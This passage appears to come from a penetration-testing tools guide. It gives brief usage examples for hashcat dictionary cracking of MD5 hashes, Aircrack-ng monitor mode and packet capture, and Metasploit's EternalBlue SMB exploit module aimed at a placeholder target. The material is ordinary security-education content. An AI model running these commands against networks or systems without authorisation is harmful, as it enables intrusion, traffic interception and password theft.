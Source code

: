 

Usage example:


```bash
hashcat -m 0 -a 0 hash.txt wordlist.txt
```



This command attempts to crack MD5 hashes (-m 0) using a dictionary attack (-a 0) with the specified wordlist.



6. Wireless Attacks



With the prevalence of wireless networks, tools for testing wireless security are crucial.


#### 6.1 Aircrack-ng



Aircrack-ng is a complete suite of tools to assess WiFi network security. It focuses on different areas of WiFi security: monitoring, attacking, testing, and cracking.



Usage example:


```bash
airmon-ng start wlan0
airodump-ng wlan0mon
```



These commands start monitoring mode on the wireless interface and then capture packets from nearby wireless networks.



7. Exploitation Tools



These tools are used to exploit known vulnerabilities in systems or applications.


#### 7.1 Metasploit Framework



The Metasploit Framework is a powerful tool for developing, testing, and executing exploit code. It contains a large database of known vulnerabilities and associated exploit modules.



Usage example:


```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target_ip
exploit
```
